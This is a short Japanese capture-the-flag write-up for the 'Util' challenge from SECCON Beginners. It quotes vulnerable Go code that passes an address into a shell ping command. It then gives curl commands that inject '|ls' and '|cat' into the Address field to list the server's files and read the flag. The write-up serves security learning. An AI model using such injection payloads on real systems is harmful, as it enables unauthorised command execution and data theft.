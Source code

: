 # Util

ping checkというタイトルとIPアドレスを入力するフォームがある

ソースコードを見るとAddressが結合されてそのままコマンドを叩くようになっている


```go
commnd := "ping -c 1 -W 1 " + param.Address + " 1>&2"
result, _ := exec.Command("sh", "-c", commnd).CombinedOutput()
```


OSコマンドインジェクションができそうだと推測


```sh
$ curl -X POST -d "Address=127.0.0.1|ls ../" https://util.quals.beginners.seccon.jp/util/ping
{"result":"app\nbin\ndev\netc\nflag_A74FIBkN9sELAjOc.txt\nhome\nlib\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n"}
```


`flag_A74FIBkN9sELAjOc.txt`というファイルがあることを確認できる

```sh
curl -X POST -d "Address=127.0.0.1|cat ../flag_A74FIBkN9sELAjOc.txt" https://util.quals.beginners.seccon.jp/util/ping
{"result":"ctf4b{al1_0vers_4re_i1l}\n"}
```

catでflagを入手
